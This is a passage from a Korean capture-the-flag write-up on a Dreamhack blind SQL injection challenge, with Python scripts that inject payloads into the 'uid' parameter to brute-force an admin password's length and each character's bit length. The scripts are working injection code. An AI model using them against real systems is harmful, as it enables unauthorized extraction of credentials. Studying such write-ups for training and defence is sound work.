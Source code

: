 `limit 0, 1`이 없다면 존재하는 값이 많아지기에 출력하지 않게 된다. 따라서, 해당 폼을 보여주는 로직인 `nrow == 1`을 만족시키기 위해 사용했고 그 결과로 입력했던 값이 존재한다는 것을 보여주게 된다.

### Password Length

```python
url = 'http://host3.dreamhack.games:10934/'
pw_length = 0

for i in tqdm(range(100)):
    payload = f'admin\' and char_length(upw) = {i}; -- '
    param = {'uid' : payload}
    r = requests.get(url, params = param)
    
    if r.text.__contains__('exists'):
        pw_length = i
        break

print(f'[*] PASSWORD LENGTH = {pw_length}')  
```

비밀번호의 길이를 알기 위해서 `length`가 아닌 `char_length`를 사용하여 문자열 인코딩에 따른 정확한 길이를 계산한다.

두 함수를 사용해보면 길이가 다르게 나오는 것을 알 수 있다.

### Password

기존에 UTF-8 인코딩 방식이 아닌 비밀번호를 확인하는 방법으로는 아스키코드에 대한 범위를 지정하여 Brute Force 했습니다.

한글이 포함된 경우에는 범위가 너무 크다. 또한 실전에서는 한글인지 아스키코드인지 알 방법이 없기에 모든 가능성을 열어야 한다.

그렇기에 패스워드 한 글자의 **비트열 길이**를 알아야 하며, **비트열 추출**, **비트 변환** 이 세 과정을 거쳐야 한다.

#### Find Bitstream

```python
def bitstream(pw_len):
    for i in tqdm(range(1, pw_len + 1)):
        bit_length = 0
        while True:
            bit_length += 1
            payload = f'admin\' and length(bin(ord(substr(upw, {i}, 1)))) = {bit_length}; -- '
            param = {'uid' : payload}
            r = requests.get(url, params = param)
            
            if r.text.__contains__('exists'):
                break

        print(f'[*] {i}\'s BIT LENGTH = {bit_length}') 
```

패스워드 길이를 알았으므로 한 글자씩 뽑아 하나의 문자를 인자로 받고 해당 문자에 해당하는 유니코드 정수를 반환받고 비트를 변환하여 비트 길이를 추출한다.

만약, `a`라는 값이였다면 **97**의 값을 비트로 표현해 `1100001` 7글자가 나온다.

`ㄱ`의 경우는 **12619**의 값이 **11000101001011**의 비트 표현의 14글자,
